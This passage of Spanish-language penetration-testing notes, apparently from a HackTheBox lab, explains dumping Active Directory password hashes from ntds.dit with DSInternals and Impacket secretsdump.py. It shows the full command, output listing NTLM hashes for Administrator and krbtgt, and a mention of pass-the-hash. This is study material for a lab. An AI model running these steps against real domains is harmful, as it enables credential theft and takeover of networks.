 ```powershell
    WDigest:
Key Credentials:
Credential Roaming
  Created:
  Modified:
  Credentials:
```

- `Get-BootKey` obtiene la boot key desde el hive `SYSTEM`.
- `Get-ADDBAccount` abre la DB `ntds.dit` y desencripta secretos usando la boot key.****
- `DistinguishedName` es una cadena que identifica únicamente a un objeto dentro del árbol de Active Directory. Va desde el nombre del propio objeto hasta la raíz del dominio, indicando contenedores intermedios. La cadena se lee de izquierda a derecha representando desde lo más específico (el objeto) hacia lo más general (el dominio).

### Usando Impacket `secretsdump.py` (offline)

```bash
$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL


Impacket v0.9.23.dev1+20210504.123629.24a0ae6f - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xc0a9116f907bd37afaaa845cb87d0550
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 85541c20c346e3198a3ae2c09df7f330
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WINLPE-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7abf052dcef31f6305f1d4c84dfa7484:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a05824b8c279f2eb31495a012473d129:::
htb-student:1103:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
svc_backup:1104:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
bob:1105:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
hyperv_adm:1106:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
printsvc:1107:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::

<SNIP>
```
- `-ntds ntds.dit` Indica la ruta del archivo NTDS.dit
- `-system SYSTEM` Es el archivo `SYSTEM hive` del registro de Windows.
- `-hashes lmhash:nthash` Permite especificar manualmente los hashes LM y NTLM si ya los tienes.

Si no existen LM hashes (lo común en sistemas modernos), se usa aad3b435b51404eeaad3b435b51404ee como valor vacío.

---


* Con los hashes se puede realizar **pass-the-hash** o cracking offline (Hashcat) para obtener contraseñas en texto.

---
